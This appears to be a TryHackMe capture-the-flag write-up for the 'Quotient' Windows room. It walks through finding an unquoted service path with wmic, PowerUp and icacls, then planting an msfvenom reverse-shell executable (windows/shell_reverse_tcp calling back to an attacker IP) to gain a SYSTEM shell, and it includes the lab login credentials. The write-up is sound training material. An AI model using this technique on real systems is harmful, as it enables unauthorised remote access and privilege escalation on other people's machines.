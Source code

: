 ```yaml
---
title: Quotient
tags: [Windows, TryHackMe ]
category: [ Windows , Tryhackme ]

---
```



Room about exploiting _Unquoted Path_ vulnerability.

We were provided with the username and the password to login:
```powershell
sage: gr33ntHEphgK2&V
```

Using _xfreerdp_, we can get RDP session on the box.
```bash
xfreerdp /u:sage /p:<pass> /v:<target_ip>
```
### Basic Enumeration
First thing first, we'll look at all the users on the box.

![image](https://user-images.githubusercontent.com/43528306/192245942-def599b8-f0ee-4421-bdca-1bca94e3a913.png)

We only have two accounts, Administrator and sage. Next, we'll look at the permission our user have:

![image](https://user-images.githubusercontent.com/43528306/183398152-3e155ec4-59da-47fb-bee7-5c97a5c73f9e.png)

Our user have shutdown rights. Enumerating more about our user

![image](https://user-images.githubusercontent.com/43528306/183398380-af33888a-56ef-44d0-ac75-f5f3bfdcd12e.png)

Looking for some non-default files on the box, we found:

![image](https://user-images.githubusercontent.com/94787830/192247296-1f7d4dcc-0e42-43b7-bd85-57c161e69158.png)

Both folder name contained empty spaces, this remind of _Unqouted Service path_. We can enumerate using either _powerup_ or manully.

### Manual
```powershell
C:\Users\Sage>wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """
Developmenet Service                                                                Development Service                       C:\Program Files\Development Files\Devservice Files\Service.exe                    Auto

C:\Users\Sage>sc qc "Development Service"
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: Development Service
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\Development Files\Devservice Files\Service.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Developmenet Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```
### Using Powerup.ps1
```powershell
PS C:\Users\Sage\Documents> get-unquotedservice


ServiceName    : Development Service
Path           : C:\Program Files\Development Files\Devservice Files\Service.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'Development Service' -Path <HijackPath>
CanRestart     : False
Name           : Development Service
```

From both methods, we found the BinaryPath was not in qoutes. To exploit this vulnerability, next thing we need is a writable directory. To enumerate all the directories in path to find which one has write access,we can use ***icacls***.
```bash
C:\Program Files>icacls "Development Files"
Development Files BUILTIN\Users:(W)
                  NT SERVICE\TrustedInstaller:(I)(F)
                  NT SERVICE\TrustedInstaller:(I)(CI)(IO)(F)
                  NT AUTHORITY\SYSTEM:(I)(F)
                  NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
                  BUILTIN\Administrators:(I)(F)
                  BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
                  BUILTIN\Users:(I)(RX)
                  BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
                  CREATOR OWNER:(I)(OI)(CI)(IO)(F)
                  APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                  APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)
                  APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)
                  APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)

```

## Exploitation
Create a malicious binary using msfvenom or any other tool.
```bash
msfvenom -p windows/shell_reverse_tcp lhost=IP lport=9991 -f exe > s.exe
```
Transger the binary to target machine and place it in the folder to which we have write access and rename our malicious exe, according to path.
```powershell
PS C:\Users\Sage\Documents> dir 'C:\Program Files\Development Files\'


    Directory: C:\Program Files\Development Files


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         3/7/2022   3:03 AM                Devservice Files
-a----         8/8/2022  11:17 AM          73802 Devservice.exe
```
Here, we can try to restart the service using `net start <service_name>` but we dont have the privs to do so. As service is an autorun service, we can restart the system and setup a listener on our attacker box to catch the shell
```bash
C:\Windows\system32>whoami                                                          
whoami
nt authority\system                     
```

References
---
- https://vk9-sec.com/privilege-escalation-unquoted-service-path-windows/
- https://www.ired.team/offensive-security/privilege-escalation/unquoted-service-paths
